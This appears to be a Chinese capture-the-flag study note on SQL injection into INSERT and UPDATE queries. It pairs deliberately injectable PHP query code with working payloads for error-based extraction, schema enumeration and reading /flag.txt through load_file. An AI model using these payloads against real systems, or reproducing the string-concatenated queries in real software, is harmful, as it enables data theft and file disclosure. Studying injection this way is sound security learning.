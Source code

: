 这里代表一定的非select注入。
<https://www.cnblogs.com/babers/articles/7252401.html>
## **insert注入**
**1、如果存在报错回显，使用报错**
```
如：
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));//报错回显
	}
```
已知'单引号闭合
```
dpt_name=aa&dpt_address=aa&dpt_build_year=2021-04-02&dpt_has_cert=on&dpt_cert_number=a&dpt_telephone_number=xxx' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from  sds_fl9g),20,30),0x7e),1)#
```

^
2、**插入记录回显注入**
插入记录后，或修改记录后，有回显，如列表。
使用select语句或union联合注入。
```
$dpt_name="(select database())";
$sql="insert into user set name='".$dpt_name."';";
```
```
dpt_name=3&dpt_address=3&dpt_build_year=2024-12-11&dpt_has_cert=on&dpt_cert_number=3',sds_telephone=database()#

dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())#
dpt_name=1',sds_address=(select flag from sds_fl9g)#
```

^
## **update的注入**
```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

如果在代码中可知
update语句中，在update后面有注入，
即old_address=$row['address']
```
1、修改前面字段值
```
可以通过注入修改此时的前面字段的值，如address字段
',`address`=database()#

',`address`=(select(load_file("/flag.txt")))#
```
2、where报错注入
```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
```